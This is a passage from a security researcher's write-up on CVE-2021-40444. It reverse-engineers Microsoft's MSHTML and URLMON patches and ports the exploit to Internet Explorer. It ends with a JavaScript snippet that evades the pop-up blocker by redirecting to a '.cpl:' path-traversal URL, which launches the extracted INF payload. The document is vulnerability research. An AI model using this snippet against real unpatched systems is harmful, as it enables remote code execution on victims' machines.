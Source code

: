 ![](https://billdemirkapi.me/content/images/2021/11/image-79.png)

](https://billdemirkapi.me/content/images/2021/11/image-79.png)New IsValidSchemeName Function

In the patched version of _AttemptShellExecuteForHlinkNavigate, the primary addition that prevents the use of file extensions as URL Protocols is the call to IsValidSchemeName.

This function takes the URL Protocol that is being used (i.e ".cpl") and verifies that all characters in it are alphanumerical. For example, this exploit used the CPL file extension to trigger the INF file. With this patch, ".cpl" would fail the IsValidSchemeName function because it contains a period which is non-alphanumerical.

An important factor to note is that this patch for using file extensions as URL Protocols only applies to MSHTML. File extensions are still exposed for use in other attacks against ShellExecute, which is why I wouldn't be surprised if we saw similar techniques in future vulnerabilities.

### Reversing Microsoft's Patch: URLMON

I performed the same patch diffing on URLMON and found a major change in catDirAndFile. This function was used during extraction to generate the output path for the INF file.

[

![](https://billdemirkapi.me/content/images/2021/11/image-80.png)

](https://billdemirkapi.me/content/images/2021/11/image-80.png)Patched catDirAndFile Pseudocode

The patch for the CAB extraction exploit was extremely simple. All Microsoft did was replace any instance of a forward slash with a backslash. This prevents the INF extraction exploit of the CAB file because backslashes are ignored for relative path escapes.

Abusing CVE-2021-40444 in Internet Explorer
-------------------------------------------

Although Microsoft's advisory covers an attack scenario where this vulnerability is abused in Microsoft Office, could we exploit this bug in another context?

Since Microsoft Office uses the same engine Internet Explorer uses to display web pages, could CVE-2021-40444 be abused to gain remote code execution from a malicious page opened in IE? When I tried to visit the same payload used in the Word document, the exploit did not work "out of the box", specifically due to an error with the pop up blocker.

[

![](https://billdemirkapi.me/content/images/2022/01/image-2.png)

](https://billdemirkapi.me/content/images/2022/01/image-2.png)IE blocks .cpl popup

Although the CAB extraction exploit was successfully triggered, the attempt to launch the payload failed because Internet Explorer considered the ".cpl" exploit to be creating a pop up.

Fortunately, we can port the .cpl exploit to get around this pop up blocker relatively easily. Instead of creating a new page, we can simply redirect the current page to the ".cpl" URL.

```
function redirect() {
    //
    // Redirect current window without creating new one,
    // evading the IE pop up blocker.
    //
    window.location = ".cpl:../../../AppData/Local/Temp/Low/msword.inf";
    document.getElementById("status").innerHTML = "Done";
}

//
// Trigger in 500ms to give time for the .cab file to extract.
//
setTimeout(function() {
    redirect()
}, 500);
```